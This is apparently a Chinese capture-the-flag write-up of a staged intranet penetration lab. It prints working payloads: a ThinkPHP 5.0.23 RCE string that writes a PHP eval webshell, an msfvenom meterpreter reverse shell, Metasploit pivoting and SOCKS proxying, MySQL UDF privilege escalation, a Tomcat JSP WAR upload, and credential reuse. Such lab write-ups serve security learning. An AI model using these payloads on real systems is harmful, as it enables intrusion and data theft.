

FK Penetration
内网逻辑示意图

flag1
获得网址
访问网站

没有任何线索，尝试扫目录
发现有 robots.txt

进入这个目录

扫目录发现有很多.git的路径
猜测为.git泄露
githack可以拿到所有源码

发现public文件夹下面有一个thinkphp，而这个框架存在很多RCE漏洞
发现版本

thinkphp 5.0.23 漏洞
尝试POST写入phpinfo
1 | _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo "<?php phpinfo(); ?>" > info.php |

成功

写入一句话木马
1 | _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo '<?php eval($_POST[cnm]); ?>' > cnm.php |
蚁剑连接成功

根目录下

由图已知网站服务器在内网，开始内网渗透环节
需要使用msf
【工具使用】——Metasploit(MSF)使用详解(超详细)-CSDN博客
内网渗透大致流程

1，利用已经控制的一台计算机作为入侵内网的跳板，在其他内网计算机看来访问全部来自于跳板机(WEB Server)
2，在攻击机和跳板机间建立 meterpreter 反向连接：配置监听 meterpreter 反向连接，跳板机开启msf建立的后门程序shell.php，建立meterpreter 建立反向连接
3，收集信息、提权
4，添加内网路由（可用socks代理将流量通过Meterpreter会话路由，从而访问并攻击内网中的其他主机。这是为了维持与内网的持续连接
5，攻击内网主机（配置各种模块
6，收集信息、提权
7，攻击内网主机
8，添加内网路由
9，重复这一操作
配置反向代理
1 | msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=lhost LPORT=8888 -f elf > shell.elf |
LHOST是与目标进行通信的msf所在ip，内网时用内网ip，外网用公网ip
开启msf监听模块
1 | use exploit/multi/handler |
这里的0.0.0.0指的是监听本机的端口
蚁剑上传shell

终端提权，运行
1 | chmod 777 shell.elf |
成功meterpreter shell


与此同时在泄露源码的database.php中拿到重要信息

正式开始进攻
首先将入侵的第一台服务器作为跳板
添加一条从跳板机到交换机的路由，这使得我可以用攻击机直接访问内网环境
跳板攻击之: MSF 添加路由方式渗透内网 - f_carey - 博客园
1 | run autoroute -s 10.88.12.0/24 # 添加路由 |

将meterpreter进程放到后台方便后续操作，可以用sessions id切换多个session
1 | background |
由于我是在ECS服务器（cent_os）上面配置的msf，因此使用代理进行流量转发是非常有必要的：
1 | use auxiliary/server/socks_proxy |
SRVHOST参数指定了SOCKS代理服务器监听的地址。设置为0.0.0.0意味着代理将监听所有可用的网络接口，SRVPORT参数指定了SOCKS代理服务器监听的端口。
这意味着，当我用我的没有公网ip的主机连接 [ ip ]：3389，同时使用socks5方式代理时， 我将能够直接利用服务器的网络环境！！！！！使用服务器代理可以使我方便地访问内网环境

以上是浏览器代理，我们同时可以用sockscap来配置全局代理

flag2
第一个受害者是一个mysql服务器，账号密码已知
**UDF (user defined function)**，即用户自定义函数。是通过添加新函数，对MySQL的功能进行扩充。
UDF 漏洞常用场景，通过其他漏洞(一句话木马等)获得了服务器权限，但是权限非常小,作用不大。再通过其他手段得到了MySQL的账号密码(如配置文件)。之后通过UDF 提权对系统权限进行一个提升。
方法一
在全局代理的情况下，直接利用sqlmap进行UDF提权，自动构造sys_exec( )函数
1 | python sqlmap.py |
后端数据库选择64bit

ls /，a（always）


mysql 连接数据库，查询可得 ip 与用户信息
1 | mysql -h 10.88.12.34 -P 3306 -u cnss -p |
方法二
MSF自带UDF提权模块
搜索MSF中关于MySql的脚本
1 | search mysql |

接下来进行UDF 提权, 加载攻击载荷（仍然在msf中操作）
1 | use exploit/multi/mysql/mysql_udf_payload |
dll上传成功后，执行SQL 语句 查看上传的DLL 文件名
1 | select * from mysql.func where name = "sys_exec"; |
通过之前MSF生成的 dll 文件创建sys_eval()函数，使执行的命令存在回显
1 | create function sys_eval returns string soname "xxx.dll" |
再次执行eval命令，根目录得到flag
1 | CNSS{w1th_Us3r_D3f1n3d_Funct10n_w3_c4n_get_sySt3m_5he11!} |

flag3
mysql查询得到用户名tomcat和一串神秘代码
1 | 32cc5886dc1fa8c106a02056292c465432cc5886dc1fa8c106a02056292c4654 |
md5解密得：g00dPa$$w0rD
nmap扫爆出来的ip：10.88.12.173
爆出来个8080
登录发现是tomcat

搜索tomcat 8.0.53 漏洞 发现了一个大知识点！！！！
利用jsp任意文件读造成RCE
payload：
1 | <%! |
终端执行
1 | jar cvf fk.war fk.jsp |
这是一个jar命令，用于创建一个名为fk.war的WAR文件，这个文件包含了fk.jsp文件

这里上传

没有404，证明成功上传且能够执行
蚁剑配置代理后连接


haha！！


flag4
接下来如法炮制
1，连接meterpreter，上路由
1 | run autoroute -s 172.52.1.0/24 |
2，在这个shell里面发现敏感文件夹/home/cnss
.bash_history 找到最后一个服务器
利用ssh私钥连接
1 | CNSS{H0w_d1d_y0u_g3t_h3r3!} |

几个TIPS
1，配置msf后门的时候，务必确保服务器开了相应端口
2，lhost 0.0.0.0/0 表示允许从任意地址的任意端口访问
3, 蚁剑运行shell时需要提权，可以用chmod 777 ，表示可读，可写，可执行
4，多记住常见的敏感目录，线索往往藏在其中